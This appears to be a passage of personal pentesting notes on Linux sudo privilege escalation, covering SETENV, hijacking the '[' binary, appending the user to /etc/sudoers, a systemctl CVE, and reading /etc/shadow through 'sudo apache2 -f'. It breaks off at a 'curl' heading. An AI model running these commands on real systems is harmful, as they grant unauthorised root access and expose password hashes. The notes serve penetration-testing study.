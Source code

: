 {% code overflow="wrap" fullWidth="true" %}
```bash
# SETENV and NOSETENV 
These tags override the value of the setenv option on a per-command basis. Note that if SETENV has been set for a command, the user may disable the env_reset option from the command line via the -E option. Additionally, environment variables set on the command line are not subject to the restrictions imposed by env_check, env_delete, or env_keep. As such, only trusted users should be allowed to set variables in this manner. If the command matched is ALL, the SETENV tag is implied for that command; this default may be overridden by use of the NOSETENV tag.  
With SETENV I can change/set environmental variables such as PATH, PYTHONPATH...

if .bashrc has sth like this
enable -n [ # ]
# And there is a comparison [ -f /whatever/file ] on a script, we can hijack the session by creating a fake binary called [
# Taht works because the binary [ exists on the filesystem
└─$ ls -l /usr/bin/[
-rwxr-xr-x 1 root root 68496 Sep 20  2022 '/usr/bin/['
# Check man bash and look for SHELL BUILT-IN to see more info // also run "help enable" on Bash
# That means by enable -n disables those builtins so [ is no longer comparison but the [ binary, and since the path is not /usr/bin/[ it can be hijacked

[ is actually the same as test, and a program on the filesystem (this article https://www.educative.io/courses/master-the-bash-shell/392YWp2pOv4 shows more detail).


#Grant sudo privileges to a user for any command
echo $USER    ALL=(ALL:ALL) ALL >> /etc/sudoers

#Sudo for everyone
chmod +w /mnt/root/etc/sudoers
vi /mnt/root/etc/sudoers # edit your user to be "user ALL=(ALL:ALL) ALL"
chmod -w /mnt/root/etc/sudoers
exit
```
{% endcode %}

## systemctl status

```
systemd --version
https://nvd.nist.gov/vuln/detail/CVE-2023-26604
https://gtfobins.github.io/gtfobins/systemctl/
```

## apache2

```
sudo apache2 -f /etc/shadow
```

## curl&#x20;
